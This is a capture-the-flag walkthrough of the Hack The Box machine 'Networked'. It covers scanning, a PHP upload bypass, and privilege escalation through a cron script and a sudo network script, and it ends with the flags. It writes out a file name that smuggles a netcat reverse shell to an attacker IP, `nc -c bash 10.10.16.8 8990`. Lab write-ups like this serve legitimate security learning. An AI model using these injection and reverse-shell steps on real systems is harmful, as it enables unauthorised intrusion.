

# Networked

## Overview

This was a fairly innovative box. Getting shell as user was challenging.


**Name -** Networked

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### Port Scan

Basic Scan

```bash
╭╴root @ …/Users/SiliconBits/Downloads via C v12.2.0-gcc via ☕ v17.0.6 via  v3.11.2
 took 27s
╰─ rustscan -a 10.129.77.135 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.77.135:22
Open 10.129.77.135:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-20 23:16 +06
Initiating Ping Scan at 23:16
Scanning 10.129.77.135 [4 ports]
Completed Ping Scan at 23:16, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 23:16
Completed Parallel DNS resolution of 1 host. at 23:16, 1.26s elapsed
DNS resolution of 1 IPs took 1.26s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 23:16
Scanning 10.129.77.135 [2 ports]
Discovered open port 80/tcp on 10.129.77.135
Discovered open port 22/tcp on 10.129.77.135
Completed SYN Stealth Scan at 23:16, 0.15s elapsed (2 total ports)
Nmap scan report for 10.129.77.135
Host is up, received echo-reply ttl 62 (0.077s latency).
Scanned at 2023-06-20 23:16:40 +06 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.83 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

Version Scan

```bash
╰─ nmap 10.129.77.135 -p 22,80 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-20 23:19 +06
Nmap scan report for 10.129.77.135
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.25 seconds
```

### **HTTP Enumeration**

Visiting the website gives us the following



Running gobuster I found the following

```bash
╭╴root @ …/c/Users/SiliconBits took 42s
╰─ gobuster dir -u http://10.129.77.135 -w /mnt/d/tools/SecLists-master/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php -t 50 --random-agent
--delay 1500ms
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.77.135
[+] Method:                  GET
[+] Threads:                 50
[+] Delay:                   1.5s
[+] Wordlist:                /mnt/d/tools/SecLists-master/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              Opera/9.27 (Windows NT 5.2; U; en)
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/06/20 23:25:08 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 229]
/uploads              (Status: 301) [Size: 237] [--> http://10.129.77.135/uploads/]
/photos.php           (Status: 200) [Size: 1302]
/upload.php           (Status: 200) [Size: 169]
/lib.php              (Status: 200) [Size: 0]
```

The upload.php file contains the uploader and photos.php file contains the gallery


I uploaded a png file and at the end of that file I injected my shellcode. Also, I changed the filename from .png to .php.png


File uploaded successfully. Now from gallery I can get the location of the uploaded file


By checking that file, I got the command injection


## Getting User.txt

From there, I took a reverse shell


Got two interesting files in the home directory of guly


crontab.guly file contains the following

```
*/3 * * * * php /home/guly/check_attack.php
```

So, It is running the check_attack.php periodically

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

So, the interesting line here is

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

I can control the $value here. I make a file with the following command.

```bash
touch ' ; nc -c bash 10.10.16.8 8990 ; '
```

And after some time, I got the shell


I grabbed the flag from the home directory


User Flag - 7e1bb80ae802c0eaf739fbc4faa52bfe

## Getting root.txt

The user has sudo privilege to run a script


The following is the content of the file

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

So, basically It will create a network script using my input for name, proxy_method, browser_only and bootproto. found this [article](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) which tells that we can run commands by cmd using whitespace after device name.


And that’s how, I got the root. and then I just grabbed the flag


Root Flag - 0f2f7b1f2a0a3a2c75c1ebdb84c8afaa

## Flags

**user.txt -** 7e1bb80ae802c0eaf739fbc4faa52bfe

**root.txt -** 0f2f7b1f2a0a3a2c75c1ebdb84c8afaa
